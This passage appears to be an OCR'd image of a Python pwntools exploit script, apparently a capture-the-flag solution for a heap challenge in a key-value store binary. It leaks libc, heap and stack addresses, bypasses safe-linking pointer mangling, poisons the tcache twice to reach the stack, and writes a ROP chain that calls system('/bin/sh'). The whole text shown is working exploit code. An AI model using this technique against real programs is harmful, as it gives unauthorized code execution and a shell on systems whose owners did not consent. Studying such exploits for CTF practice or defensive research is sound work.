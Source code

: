 ```python
        mask >>= 12
    return val

def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def exploit():
    global io
    io = initialize()

    for i in range(4):
        create(i, 0x100, f'KEY-{i}'.encode(), 0x100, f'IDX-{i}'.encode())
    create(4, 0x10, b'protect', 0x10, b'protect')

    # fill tcache
    for i in range(4):
        delete(i)

    # unsorted bin
    read(3)
    io.recvuntil(b'val = ')
    leak = encode_leak(io.recvuntil(b'\\x00', drop=True))
    libc.address = leak - 0x21ace0

    read(2)
    io.recvuntil(b'val = ')
    leak = encode_leak(io.recvuntil(b'\\x00', drop=True))
    heap = demangle(leak) - 0x6e0

    # clean bins
    for i in range(4):
        create(i, 0x100, f'KEY-{i}'.encode(), 0x100, f'IDX-{i}'.encode())

    create(5, 0x40, b'VICTIM', 0x40, b'VICTIM')
    delete(5)

    target = mangle(heap, libc.sym['environ'] - 0x10)
    update(5, p64(target))

    create(6, 0x40, b'nothing', 0x40, b'A'*10+b'B'*4)
    read(6)
    io.recvuntil(b'BBBB')
    io.recvuntil(b'\\x00')
    io.recvuntil(b'\\x00')
    leak = encode_leak(io.recvuntil(b'\\x00', drop=True))
    stack = leak

    create(7, 0x60, b'VICTIM', 0x60, b'VICTIM')
    delete(7)

    rip = mangle(heap, stack - 0x120 - 0x8)
    update(7, p64(rip))

    offset = 0x8
    payload = flat({
        offset: [
            libc.address + 0x02a3e5, # pop rdi; ret;
            next(libc.search(b'/bin/sh\x00')),
            libc.address + 0x029139, # ret;
            libc.sym['system']
        ]
    })
    create(8, 0x60, b'VICTIM', 0x60, payload)
```